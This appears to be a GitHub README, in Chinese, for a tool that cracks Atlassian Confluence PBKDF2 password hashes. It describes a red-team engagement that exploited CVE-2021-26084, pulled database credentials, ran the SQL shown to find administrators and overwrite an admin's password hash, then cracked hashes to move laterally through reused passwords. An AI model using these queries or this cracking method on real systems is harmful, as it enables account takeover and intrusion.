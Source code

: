 # atlassian_pbkdf2_dehash
## 初衷
atlassian confluence产品，爆发CVE-2021-26084漏洞,在一次HW项目中通过内网目标机器不出网，通过CVE-2021-26084漏洞写入公钥，拿到服务器权限。在`<confluence-home-directory>/database`
文件夹中找到数据库账号密码。一种方法是通过查找管理员，通过修改hash值登陆web管理后台。具体方法如下：
```
## 获取管理员账号，id
select u.id, u.user_name, u.active from cwd_user u
join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id
where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';
## 修改密码 123123
UPDATE cwd_user SET credential = '{PKCS5S2}V1J8HcMvYsdtnETu2tjA1gFVQ1L3o+dAsNiooSAcSvpRcbkTR8K4Ha/iWgF145gk'  
WHERE id=393217; 
```

## 问题
内网IT系统内部员工账号密码一样，而修改一个confluence密码无法登陆到其他系统，给横向移动带来麻烦。通过mysql数据库账号，pbkdf2 hash值。想到通过hash碰撞到方式，获取用户明文密码。
因此编写PBKDF2(Atlassian) hash atlassian_pbkdf2_dehash 碰撞方法，获得明文密码。最终通过明文密码，拿到gitlab 用户账号密码，查找代码配置文件，拿到多台服务器，打穿内网。

## 用法
```
python3 atlassian_pbkdf2_dehash.py -p <passwordfile> -f <hashfile>
```

## 运行结果图
![image](./img/img.png)